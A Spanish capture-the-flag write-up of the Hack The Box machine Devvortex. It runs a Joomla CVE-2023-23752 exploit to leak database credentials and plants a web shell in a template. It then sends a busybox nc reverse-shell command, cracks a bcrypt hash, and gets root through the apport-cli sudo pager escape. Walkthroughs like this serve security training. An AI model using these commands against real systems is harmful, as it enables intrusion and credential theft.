





# Resolución maquina Devvortex

**Autor:** PepeMaquina  
**Fecha:** 03 de Enero de 2026
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** Joomla, CVE, Sudo.

---
## Imagen de la Máquina

*Imagen: Devvortex.JPG*
## Reconocimiento Inicial
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.129.53.53 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80 10.129.53.53 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
### Enumeración de la página web
Al inspeccionar el resultado del escaneo se ve que redirige a un dominio especifico "devvortex.htb" que agregamos al etc/hosts
~~~bash
cat /etc/hosts
127.0.0.1 localhost
<SNIP>
10.129.53.53 devvortex.htb
~~~
Examinando la pagina no se encuentra algo util, por lo que se procede a realizar enumeración de subdominios.
~~~bash
┌──(kali㉿kali)-[~/htb/devvortex/nmap]
└─$ wfuzz -u http://10.129.53.53 -H "Host:FUZZ.devvortex.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 7 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.53.53/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                    
=====================================================================

000000022:   200        501 L    1581 W     23221 Ch    "dev"                    

Total time: 472.4374
Processed Requests: 24536
Filtered Requests: 24535
Requests/sec.: 51.93492
~~~
Se pudo encontrar un subdominio "dev", esto suele ser util porque suele tener cosas en preproduccion es decir funciones nuevas para la pagina.
Inspeccionando la pagina se puede ver que utiliza un CMS Joomla.

Cuando tengo algun CMS, lo primordial seria realizar una busqueda de su version para ver si tiene algun CVE y en caso contrario obtener credenciales para ingresar al su pagina de administración.
Para ahorrar tiempo, realiza una enumeración automatizada.
~~~bash
┌──(kali㉿kali)-[~/htb/devvortex/nmap]
└─$ droopescan scan joomla --url http://dev.devvortex.htb/      
[+] No version found.                                                           

[+] Possible interesting urls found:
    Detailed version information. - http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
    Login page. - http://dev.devvortex.htb/administrator/
    License file. - http://dev.devvortex.htb/LICENSE.txt
    Version attribute contains approx version - http://dev.devvortex.htb/plugins/system/cache/cache.xml

[+] Scan finished (0:00:34.363465 elapsed)
~~~
Obteniendo la ruta de la dirección donde se puede encontrar mas información "administrator/manifests/files/joomla.xml", asi que inspeccionando ello se puede ver que utiliza la version "4.2.6".

### CVE-2023-23752
Realizando una busqueda rapida en internet, se ve que presenta un "CVE-2023-23752" el cual menciona que puede obtener información de la pagina de configuración, para ello se hallo un PoC en github (https://github.com/Acceis/exploit-CVE-2023-23752)
~~~bash
──(kali㉿kali)-[~/htb/devvortex/exploits/exploit-CVE-2023-23752]
└─$ ruby exploit.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
~~~
De esa forma de obtuvieron crendenciales para la base de datos.
Primero intente ver por ssh si se reutilizaban las contraseñas pero no se tuvo exito, asi que se intento iniciar sesion en la pagina de administracion de Joomla "/administrator/" obteniendo un inicio de sesión exitoso.

Una vez dentro, la idea es ver si se tiene permisos para modificar un template y dentro del template modificar alguna página para agregar una reverse shell.
En este caso si se tiene permisos asi que procedo a agregar un RCE a error.php.

Finalmente se guarda el archivo y solo es cosa de enviar una reverse shell para que realice la conexión.
En este caso envie una con busybox pero url enconde.
~~~bash
curl -s "http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=busybox%20nc%2010.10.15.165%20443%20-e%20%2Fbin%2Fbash" 
~~~
Antes de enviarlo, se debe de configurar un escucha para que realice la conexion.
~~~bash
┌──(kali㉿kali)-[~/htb/devvortex/exploits/exploit-CVE-2023-23752]
└─$ sudo nc -nlvp 443                                                                               
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.15.165] from (UNKNOWN) [10.129.53.53] 46200
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~
De esa forma se obtuvo exitosamente una reverse shell con acceso al usuario "www-data", asi que ahora se debe saltar al usuario del sistema.

### Salto al usuario LOGAN
Viendo el archivo "etc/passwd" se ve a un usuario logan.
~~~bash
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
logan:x:1000:1000:,,,:/home/logan:/bin/bash
~~~
Para saltar a este usuario primero se ingreso a la bdd con las primeras credenciales encotnradas para lewi.
~~~bash
www-data@devvortex:/tmp$ mysql -u lewis -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 16453
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
~~~
Ahora se vieron las bases de datos, para encontrar la tabla "sd4fg_users"
~~~bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
~~~
Para ver el contenido de "sd4fg_users" realice una consulta simple.
~~~bash
mysql> select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2026-01-03 17:58:43 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
~~~
Se puede ver un usuario LOGAN, asi que desifrare su hash para intentar ingresar por ssh.
~~~bash
┌──(kali㉿kali)-[~/htb/devvortex/content]
└─$ hashcat -m 3200 hash_logan /usr/share/wordlists/rockyou.txt                  .............                                            
<SNIP>
.............
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
~~~
Efectivamente si pudo obtener una contraseña, asi que se intenta ingresar por ssh.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Al poder probar el ingreso por ssh empleando dichas credenciales, se puede ver que son validas y la user flag se encuentra en ese lugar.
~~~bash
┌──(kali㉿kali)-[/opt/linux]
└─$ ssh logan@10.129.53.53                                                                                                      
logan@10.129.53.53's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 03 Jan 2026 07:12:42 PM UTC

  System load:  0.0               Processes:             169
  Usage of /:   64.7% of 4.76GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.129.53.53
  Swap usage:   0%

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Feb 26 14:44:38 2024 from 10.10.14.23
logan@devvortex:~$ ls
user.txt
logan@devvortex:~$ cat user.txt
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
### Permisos Sudo
Al realizar la enumeración basica, se revisaron los permisos Sudo, logrando obtener los siguiente:
~~~bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Sorry, try again.
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
~~~
Enumerando esto se pudo encontrar la version.
~~~bash
logan@devvortex:~$ /usr/bin/apport-cli -v
2.20.11
~~~

### CVE-2023-1326
Con la version, se realizo una busqueda en internet encontrando un CVE para escalar privilegios (CVE-2023-1326).
Encontrando un PoC (https://github.com/cve-2024/CVE-2023-1326-PoC) que basicamente indica la forma de escalar, es parecida a la forma de escalar con un servicio donde se puede colocar un "/bin/bash" al momento de escribir opciones sobre un archivo, en este caso pide que se llegue a la opcion "View Report" para poder escribir "bin/bash".

Para ello se inicio el modo creacion y presionar las primeras opciones al azar.
***NOTA: Si se quiere replicar, yo presione 1, luego 3, luego d y finalmente V para la opcion "View Report" que es lo que pide***
~~~bash
logan@devvortex:/$ sudo /usr/bin/apport-cli --help
Usage: apport-cli [options] [symptom|pid|package|program path|.apport/.crash file]

Options:
  -h, --help            show this help message and exit
  -f, --file-bug        Start in bug filing mode. Requires --package and an
                        optional --pid, or just a --pid. If neither is given,
                        display a list of known symptoms. (Implied if a single
                        argument is given.)
  -w, --window          Click a window as a target for filing a problem
                        report.
  -u UPDATE_REPORT, --update-bug=UPDATE_REPORT
                        Start in bug updating mode. Can take an optional
                        --package.
  -s SYMPTOM, --symptom=SYMPTOM
                        File a bug report about a symptom. (Implied if symptom
                        name is given as only argument.)
  -p PACKAGE, --package=PACKAGE
                        Specify package name in --file-bug mode. This is
                        optional if a --pid is specified. (Implied if package
                        name is given as only argument.)
  -P PID, --pid=PID     Specify a running program in --file-bug mode. If this
                        is specified, the bug report will contain more
                        information.  (Implied if pid is given as only
                        argument.)
  --hanging             The provided pid is a hanging application.
  -c PATH, --crash-file=PATH
                        Report the crash from given .apport or .crash file
                        instead of the pending ones in /var/crash. (Implied if
                        file is given as only argument.)
  --save=PATH           In bug filing mode, save the collected information
                        into a file instead of reporting it. This file can
                        then be reported later on from a different machine.
  --tag=TAG             Add an extra tag to the report. Can be specified
                        multiple times.
  -v, --version         Print the Apport version number.
logan@devvortex:/$ sudo /usr/bin/apport-cli -f

*** What kind of problem do you want to report?

Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?
Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 3

*** 

Please reproduce the crash and collect a backtrace.  See https://wiki.ubuntu.com/X/Backtracing for directions.

Press any key to continue... d
..dpkg-query: no packages found matching xorg
.............

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
~~~
Con la opcion "View Report" seleccionada, esto entra a una pequeña interfaz al igual que "vim" cuando se quiere guardar el archivo, por lo que se debe colocar:
~~~bash
!/bin/bash
~~~
Y al momento de ejecutar el comando se ingresara a una terminal pero como usuario root.
De esa forma de obtiene acceso como usuario root.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso como usuario root ya se puede leer la root flag y realizar cualquier accion que requiera.
~~~bash
root@devvortex:/# cd /root/
root@devvortex:~# ls
root.txt
root@devvortex:~# cat root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido
